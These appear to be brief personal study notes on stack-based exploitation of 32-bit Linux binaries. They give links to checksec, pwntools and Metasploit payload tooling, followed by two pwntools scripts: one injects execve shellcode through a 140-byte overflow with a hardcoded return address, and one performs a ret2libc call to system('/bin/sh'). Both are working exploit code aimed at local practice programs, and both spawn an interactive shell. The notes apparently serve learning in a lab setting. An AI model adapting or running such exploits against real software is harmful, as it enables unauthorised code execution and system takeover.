 https://segmentfault.com/a/1190000005888964
http://peckerwood.top/post/rop_0x01/
### checksec
https://github.com/slimm609/checksec.sh

### pattern.py:
https://github.com/Svenito/exploit-pattern

### MSF
https://github.com/g0tmi1k/msfpc

### pwn tools
https://docs.pwntools.com/en/stable/

### code
```python
#!/usr/bin/env python3
from pwn import *
import binascii

p = process('./rop')
ret = 0xffffd080
# core dump的buf地址可能会改变，需要在一段时间后执行脚本要重新计算ret值
shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

#print (binascii.hexlify(shellcode))

"""
shellcode = asm('''
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f  
push 0x6e69622f   
mov ebx, esp
mov al, 11
int 0x80
''')
"""

code = shellcode
code += bytes(('A' * (140 - len(shellcode))).encode())
code += p32(ret)
print (binascii.hexlify(bytearray(code)))

p.send(code)

p.interactive()

```
## ret2libc
```
#!/usr/bin/env python3
from pwn import *
import binascii

p = process('./rop_ep')

# system() address in libc. 
# gdb$ break main 
# gdb$ run
# gdb$ print system  
system = 0xf7e132e0

# "/bin/sh" in libc.
# gdb$ print __libc_start_main
# gdb$ find &libc_main(), +22000, "/bin/sh"
param = 0xf7f540af

code = bytes(('A' * 140).encode())
code += p32(system) 
code += p32(0xdeadbeef)
code += p32(param)
print (binascii.hexlify(bytearray(code)))

p.send(code)

p.interactive()
```
